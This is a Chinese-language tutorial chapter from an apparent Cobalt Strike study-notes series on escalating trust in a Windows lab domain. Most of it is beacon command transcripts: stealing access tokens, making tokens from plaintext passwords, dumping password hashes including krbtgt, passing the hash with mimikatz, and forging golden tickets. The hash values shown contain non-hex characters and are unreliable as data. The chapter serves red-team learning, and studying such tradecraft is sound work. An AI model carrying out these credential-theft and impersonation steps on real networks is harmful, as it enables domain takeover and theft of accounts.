


# Cobalt Strike — 4、获取信任

## 4、获取信任

如果当前账号权限被系统认为是本地管理员权限，那么就可以执行很多管理员才能做的事，接下来就来看一下这样的一个过程是如何工作的，其中会涉及到以下要点：

1、`Access Token` 登录令牌

2、`Credentials` 凭证

3、`Password Hashes` 密码哈希

4、`Kerberos Tickets` 登录凭据

### 登录令牌

* 登录令牌在登录之后被创建
* 与每个进程和线程相关联
* 包括：
  * 用户和用户组的信息
  * 本地计算机上的特权列表
  * 限制（删除用户和用户组的权限）
  * 参考凭证（支持单点登录）
* 一直保存在内存中，直到系统重启

*以下是令牌窃取的过程：*

* 使用 `ps` 列出进程
* 使用 `steal_token [pid]` 窃取令牌
* 使用 `getuid` 找到你是谁
* 使用 `rev2self` 移除令牌

接下来将对这些命令进行演示，目前有一个 SYSTEM 权限的会话，该会话在 WIN-72A8ERDSF2P 主机下，此时想查看 WIN-P2AASSD1AF1 主机下的文件（WIN-P2AASSD1AF1 主机是 TEAMSSIX 域的域控制器），那么直接运行 dir 会提示拒绝访问。

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

此时，先用 `ps` 查看一下当前系统进程信息。

```powershell
beacon> ps
[*] Tasked beacon to list processes
[+] host called home, sent: 12 bytes
[*] Process List
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 0     0     [System Process]                               
 4     0     System                       x64   0           NT AUTHORITY\SYSTEM
……内容太多，此处省略……
 3720  524   taskhost.exe                 x64   2           WIN-72A8ERDSF2P\Administrator
 4092  236   dwm.exe                      x64   3           TEAMSSIX\Administrator
```

通过进程信息可以发现 TEAMSSIX 域下的管理员账户此时在当前 SYSTEM 会话的主机上是登录着的，使用 `steal_token [pid]` 命令窃取 TEAMSSIX\Administrator 账户的令牌

```powershell
beacon> steal_token 4092
[*] Tasked beacon to steal token from PID 4092
[+] host called home, sent: 12 bytes
[+] Impersonated TEAMSSIX\administrator
```

查看一下当前会话 uid

```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are TEAMSSIX\administrator (admin)
```

再次尝试获取域控制器主机下的文件

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
```



发现可以成功访问了，使用  `rev2self` 可移除当前窃取的令牌

```powershell
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
```

再次查看 uid 发现变成了原来的 SYSTEM 权限，此时 WIN-P2AASSD1AF1 主机上的文件也拒绝访问了。

```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

### 凭证

1、使用 make\_token 创建一个令牌

```powershell
make_token DOMAIN\user password
```

在运行命令之前，需要知道要获取令牌用户的密码，这里可以使用 mimikatz 进行获取，具体的方法可参考[《CS学习笔记 | 14、powerup提权的方法》](https://teamssix.com/year/200419-150600.html)这一节中的介绍。

这里还是和上文一样的环境，在一个 SYSTEM 会话下，获取 TEAMSSIX\administrator 账号令牌，使用 mimikatz 可以得知 TEAMSSIX\administrator 账号密码为 Test111!，接下来使用 `make_token` 命令。

```powershell
beacon> make_token TEAMSSIX\administrator Test111!
[*] Tasked beacon to create a token for TEAMSSIX\administrator
[+] host called home, sent: 53 bytes
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
               
beacon> powershell Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

当密码输入错误时，执行上面的两个命令就会提示 `登录失败: 未知的用户名或错误密码。` 同样的使用 `rev2self` 可除去当前令牌，恢复原来的 SYSTEM 权限。

2、使用 spawn beacon 替代凭证

```powershell
spawnas DOMAIN\user password
```

3、在目标上建立账户

```powershell
net use \\host\C$/USER:DOMAIN\user password
```

这两种方法，在之前的笔记中都或多或少的提及过，这里不再过多赘述。

### 密码哈希

使用 mimikatz 获取密码哈希

```plain
pth DOMAIN\user ntlmhash
```

如何工作的？

1、mimikatz 使用登录令牌开启了一个进程，在单点登录信息那里填入我们提供的用户名称、域、密码哈希值

2、cobalt strike 自动的从那个进程中窃取令牌并关闭

首先使用 `hashdump` 获取用户的密码哈希值，这里的 beacon 会话为 SYSTEM 权限。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Daniel:1000:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
TeamsSix:1002:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```

使用 `pth` 获取信任

```powershell
beacon> pth TEAMSSIX\Administrator 12cb161bvca930994x00cbc0aczf06d1
[+] host called home, sent: 23 bytes
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:Administrator /domain:TEAMSSIX /ntlm:12cb161bvca930994x00cbc0aczf06d1 /run:"%COMSPEC% /c echo ade660d8dce > \\.\pipe\8d3e4c" command
[+] host called home, sent: 750600 bytes
[+] host called home, sent: 71 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
user	: Administrator
domain	: TEAMSSIX
program	: C:\Windows\system32\cmd.exe /c echo ade660d8dce > \\.\pipe\8d3e4c
impers.	: no
NTLM	: 12cb161bvca930994x00cbc0aczf06d1
  |  PID  2992
  |  TID  5028
  |  LSA Process is now R/W
  |  LUID 0 ; 14812112 (00000000:00e203d0)
  \_ msv1_0   - data copy @ 0000000001794E80 : OK !
  \_ kerberos - data copy @ 000000000044A188
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000000017DA1E8 (16) -> null

beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

### Kerberos 票据

关于 Kerberos 的介绍可以查看知乎上的一篇文章，比较形象生动，文章地址： <https://www.zhihu.com/question/22177404>

查看有哪些 Kerberos 票据

```powershell
shell klist
```

除去 kerberos 票据

```powershell
kerberos_ticket_purge
```

加载 kerberos 票据

```powershell
kerberos_ticket_use [/path/to/file.ticket]
```

### 黄金票据

黄金票据 `Golden Ticket` 是 KRBTGT 帐户的 Kerberos 身份验证令牌，KRBTGT 帐户是一个特殊的隐藏帐户，用于加密 DC 的所有身份验证令牌。然后黄金票据可以使用哈希传递技术登录到任何帐户，从而使攻击者可以在网络内部不受注意地移动。

**使用 mimikatz 伪造黄金票据需要：**

**1、目标的用户名及域名**

**2、域的 SID 值**

域的 SID 值即安全标识符 `Security Identifiers`，使用 `whoami /user` 命令可查看，注意不需要 SID 最后的一组数字。

```powershell
beacon> shell whoami /user
[*] Tasked beacon to run: whoami /user
[+] host called home, sent: 43 bytes
[+] received output:

用户信息
----------------

用户名        SID                                         
============= ============================================
teamssix\daniel S-1-5-21-5311978431-183514165-284342044-1000
```

因为不需要 SID 最后一组数字，所以这里要使用的 SID 也就是 `S-1-5-21-5311978431-183514165-284342044`

**3、DC 中  KRBTGT  用户的 NTLM 哈希**

DC 中  KRBTGT  用户的 NTLM 哈希可以通过 dcsync 或 hashdump 获得，下面的 hashdump 命令在域控制器的 SYSTEM 权限会话下运行。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aca3b435b5z404eeaad3f435b51404he:z1f8417a00az34scwb0dc15x66z43bg1:::
daniel:1108:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```

Cobalt Strike 在 `Access -> Golden Ticket` 中可以打开生成黄金票据的界面。



信息填完之后，选择 Build，需要注意 Domain 需要填写成 FQDN 格式，即完全合格域名 `Fully Qualified Domain Name` ，也就是类似于 `teamssix.com` 的格式。

此时可以通过 `shell dir \\host\C$` 检查自己是否有权限，也可以使用 PowerShell 运行 whoami 查看自己是谁。

```powershell
beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 203 bytes
[+] received output:
teamssix\administrator
```
